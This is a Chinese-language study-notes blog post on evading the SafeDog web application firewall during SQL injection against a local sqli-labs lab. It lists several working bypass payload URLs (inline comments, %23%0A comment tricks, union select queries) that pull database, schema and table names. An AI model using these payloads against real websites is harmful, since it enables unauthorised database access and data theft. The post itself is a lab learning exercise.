# bypass 学习笔记之绕安全狗bypass safedog


---

# 前言

---

走上安全这条路也有9个月了，虽然中途有两个月一直在准备其他的事情，但是安全这条路一直在坚持着。  
学习安全这么久了，从一开始的脚本小子，我也一直想转变一下，改变自己的现状，但是因为种种事情，给耽误了这个计划。  
因为接触最多漏洞应该是SQL注入吧，所以我第一想到就是bypass SQL注入。为什么选择安全狗呢？这个waf。。。。这个是因为我遇到的最多是这个waf。  
`大家看完可能发现这些东西可能是参考里面差不多的，为啥我还要重新写一波？我只是单纯的想加深一下自己下印象，加深记忆。只是做为自己的学习笔记而已，大佬们不要喷。`

---

# 0x00 前期准备

虚拟机windows7  
phpstudy[^1](https://www.xp.cn/)（为啥选这个我就不说了）  
`如果你是使用的phpstudy，请务必将sql的版本调到5.5以上，因为这样你的数据库内才会有information_schema数据库，方便进行实验测试。`[^2](https://blog.csdn.net/sdb5858874/article/details/80727555)  
环境  
sqli-labs[^3](https://github.com/Audi-1/sqli-labs)（我相信大家也不陌生）  
这里下载之后要在相关地方修改一下，修改一下数据库密码。具体搭建步骤可以看[sqli-labs环境搭建](https://blog.csdn.net/qq_35811830/article/details/90302307)这里就不多做叙述。  


---

# 0x01 开始尝试绕开

## 判断字段数

`内联绕过`

```plain
http://192.168.116.130:8001/Less-1/?id=1%27/*!14440order by*/ 3-- +
```



```plain
http://192.168.116.130:8001/Less-1/?id=1%27/*!10450order%20by*/%203--%20+
```



经过自己短暂Fuzz之后发现  
?id=1%27/*!`10450`order%20by*/%203–%20+  
内联其中的10450这个数值不一样，safedog 拦截情况不一样。（这个情况我也不是很清楚是为啥，因为我也不懂MySQL的查询原理。如果有大佬知道可以评论说明一下，小的不甚感激！）  
  
  
`注释`

```plain
http://192.168.116.130:8001/Less-1/?id=1%20order%23by%203%20--+
```

无意中我发现原文中写的是注释换行，但我发现不用换行也能绕过。  
`1%20order%23by%203%20--+` 区别在%23后面加%0A。



## 联合查询

`union select`  
经过不断Fuzz[^4](推荐一个不断Fuzz的文章，在此我就不多累赘了。https://blog.csdn.net/q1352483315/article/details/90175002),你会发现狗只会咬select这个字，不会考虑union。  
  
`内联`

```plain
http://192.168.116.130:8001/Less-1/?id=-1%27%20union%20/*!10440select*/%201,2,3%20--+
```

参考文章是连union也内联注释了一下。  
  
`注释+垃圾字符`

```plain
http://192.168.116.130:8001/Less-1/?id=-1%27%20union%230%0Aselect%201,2,3%20--+
```

垃圾字符可以多点，字符无所谓是什么，最少要一个，亲测。  
  


## 爆数据

下面就不一一截图了，不然篇幅太长了。  
`获取数据库名`  
查当前数据库名

```plain
大佬骚操作
http://localhost/sqli-labs/Less-1/?id=-1%27%20union%20all--+x%0Aselect%201,2,database/*!00000()*/--+
```

```plain
这个是我自己结合前面的Fuzz出来操作
http://192.168.116.130:8001/Less-1/?id=-1%27%20union%23a%0Aselect%201,2,database%23%0A()--+
```

差其他数据库名

```plain
不知道为啥，我可以查到其他数据库，但在参考文章中是不可能的，玄学。
http://192.168.116.130:8001/Less-1/?id=-1%27%20union%20%23asdasdasd%0a%20select%201,(select%20schema_name%20from%20%23%0ainformation_schema.schemata%20%20limit%202,1),3%20--%20+
```



---

`获取表名`

```plain
http://localhost/sqli-labs/Less-1/?id=-1%27%20union%20all--+x%0Aselect%201,2,group_concat(table_name)from%20sys.schema_auto_increment_columns%20where%20table_schema=database/*!/*%23*/*/()--+
```

---

# 0x03 配合使用分块传输插件bypass dogwaf

之前偶尔看到了分块传输插件，可以过很多waf。今天得以试试。  
  
  


---

未完待续

---

# Reference Resources

<https://www.anquanke.com/post/id/188465>  
<https://422926799.github.io/posts/aafbd292.html>  
<https://www.chabug.org/web/1019.html>
